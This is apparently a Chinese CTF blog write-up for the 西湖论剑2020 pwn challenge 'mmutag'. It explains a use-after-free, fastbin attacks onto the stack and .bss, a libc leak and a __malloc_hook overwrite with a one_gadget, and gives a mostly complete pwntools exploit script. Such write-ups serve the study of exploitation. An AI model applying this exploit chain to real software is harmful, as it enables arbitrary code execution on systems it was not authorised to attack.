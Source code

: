 ```yaml
---
layout: post
title: 西湖论剑2020
description: pwn-mmutag
categories: CTF/PWN


---
```




<!-- more -->

# 前言

这道题非常简单,第一种方法是fastbin_attack返回到栈中，然后泄漏canary和libc，然后覆盖返回地址为One_Gadget

我自己脑子抽风用了第二种方法，也是提升自己布置堆风水的能力

# 逻辑分析

1.这道题一开始给了我们一个gift:栈上的地址，分配堆的大小都是0x68,有个UAF的漏洞，但是只能布置10个堆，同时可以修改栈上的内容，并输出栈上的内容

![](/images/character8/mmutag1)

# 思路

首先这道题无论分配和释放都只能用到fastbin,所以只能用fastbin_attack,同时给了我们栈上的地址,且能输出栈上的内容,那毫无疑问是用fastbin_attack分配到栈中泄漏地址和ROP了,但同时我们可以注意到我们分配的栈上的地址是0x7f开头的,我们可以控制bss段heap的分配位置，如果我们能构成p64(0x7f)，也是能分配到bss上进行操作的,所以我运用了堆的思想又分配到了bss段中，这样可以多次使用fastbin_attack了，然后fastbin_attack分配到malloc_hook-0x23将malloc_hook修改为one_gadget然后getsehll

# 代码

```python
# 完整脚本可看我的github
context.arch = "amd64"
payload = p64(0)+p64(0x71)+p64(0)+p64(0)
sla('please input you name:',payload)
ru("this is your tag: 0x")
stack_addr = r(12)
stack_addr = int(stack_addr,16)
success("stack_addr:0x%x",stack_addr)
sleep(0.1)
sla('choice',2)
Add(3)
Add(4)
Del(3)
Del(4)
Del(3)
payload = p64(0)+p64(0x71)+p64(0)+p64(0)
Set_stack(payload)
Add(5,p64(stack_addr-0x40))
Add(6)
Add(7,p64(0))
Add(1,'a'*0x40+'b'*0x8)
Set_stack('a'*0x20)
ru('b'*0x8)
libc_base = uu64(r(6))-0x20840
success('libc:0x%x',libc_base)
malloc_hook = libc_base + 0x3c4aed
one_gadget = libc_base + 0xf0364
Del(3)
Del(4)
Del(3)
payload = p64(0x6020c5)
Add(8,payload)
Add(9)
Add(10)
Add(2,'\x00'+p64(0)*6)
Del(10)
Del(9)
Del(10)
Add(3,p64(malloc_hook))
Add(4)
Add(5)
Add(6,'\x00'*3+p64(one_gadget)*8)
success("one_gadget:0x%x",one_gadget)
Set_stack('\x00'*0x20)
success('one_gadget:0x%x',one_gadget)
Choice(1)
sla('id:',8)
irt()
```

如果想看第一种方法的可以参考：https://bbs.pediy.com/thread-262526.htm
